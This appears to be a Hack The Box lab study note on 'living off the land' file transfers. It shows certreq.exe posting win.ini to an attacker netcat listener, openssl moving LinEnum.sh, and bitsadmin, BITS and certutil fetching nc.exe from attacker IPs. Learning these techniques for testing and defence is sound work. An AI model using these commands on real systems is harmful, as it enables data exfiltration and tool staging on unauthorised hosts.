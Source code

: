 ```yaml
---
description: >-
  Abusing Installed services
title: Living off the land (LOLBAS & GTFOBins)           # Add title here
date: 2024-01-15 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Living off the land (LOLBAS & GTFOBins)]                     # Change Templates to Writeup
tags: [file transfer, python, lolbas, gtfobins]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Upload win.ini to our Pwnbox

This will send the file to our Netcat session, and we can copy-paste its contents.
```powershell
C:\htb> certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini
```

File Received in our Netcat Session
```bash
Shuciran@htb[/htb]$ sudo nc -lvnp 80

POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
### GTFOBins
To search for the download and upload function in GTFOBins for Linux Binaries, we can use +file download or +file upload.

![GTFOBins](/assets/img/Pasted-image-20240115221147.png)

### OpenSSL
```bash
Shuciran@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

### Stand up the Server in our Pwnbox
```bash
Shuciran@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Download File from the Compromised Machine:
```bash
Shuciran@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

### Bitsadmin File Download
```powershell
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

Download:
```powershelll
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

### Download a File with Certutil
```powershell
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```